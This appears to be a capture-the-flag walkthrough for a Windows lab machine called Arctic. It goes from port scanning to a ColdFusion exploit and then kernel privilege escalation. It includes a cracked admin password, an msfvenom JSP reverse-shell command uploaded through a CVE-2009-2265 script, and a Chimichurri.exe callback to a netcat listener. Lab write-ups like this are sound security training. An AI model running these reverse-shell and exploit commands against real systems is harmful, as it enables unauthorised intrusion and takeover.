

# Arctic

In this room we are going to attempt to get root in the **Arctic** machine which its theme is Windows Privilege Escalation!

Let's begin.

### Port Enumeration

Let's first start with a simple port enumeration command:

```
nmap <ip> -A -T4 -p-
```

> Host is up (0.066s latency).
> Not shown: 65532 filtered tcp ports (no-response)
> PORT      STATE SERVICE VERSION
> **135/tcp   open  msrpc   Microsoft Windows RPC**
> **8500/tcp  open  fmtp?**
> **49154/tcp open  msrpc   Microsoft Windows RPC**
> Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

From the output of the nmap scan we performed we know now that the machine has 2 RPC ports and one FMTP service.

Since RPC ports are hard to exploit let us move on to FMTP

### FMTP

After checking in the browser for the port I was able to get some output:


Let's explore these directories for some useful information.

After a simple google search and an error message I can see we are not dealing with FMTP but with Adobe Coldfusion.


Since I was not getting much information just randomly clicking on files I decided to discover the version of ColdFusion using the **/scanner/http/coldfusion_version** module.



Searching for an exploit I was able to use one exploit to extract the hashed password of the admin user.

> #Wed Mar 22 20:53:51 EET 2017
> rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
> password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
> encrypted=true

Crackstation showcases that the password is `happyday`.

This did not help me much towards getting a shell.

### Foothold

Now that I knew the version, I was able to understand what vulnerability the target was vulnerable to, based on another exploit. Unfortunately, it was not working for me in Metasploit so I ended up using [this one](https://github.com/p1ckzi/CVE-2009-2265) from Github.

```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.13 lport=4444 -f raw > rshell.jsp
python cf8-upload.py 10.10.10.11:8500 rshell.jsp -r
```

After that I was able to get a shell as user tolis.

### Privilege Escalation

Both PowerUp and winPEAS were proving difficult to execute. Hence I decided to get the system information and use windows exploit suggester.


I decided to explore MS10-59 which I had already done in the past. I used this [Github Repository with the Chimichurri.exe](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled). Transfer the file to the target and execute the payload to escalate your privileges:

```
nc -lnvp <listening port>
./Chimichurri.exe <attacker ip> <listening port>
```

Great! We did it!


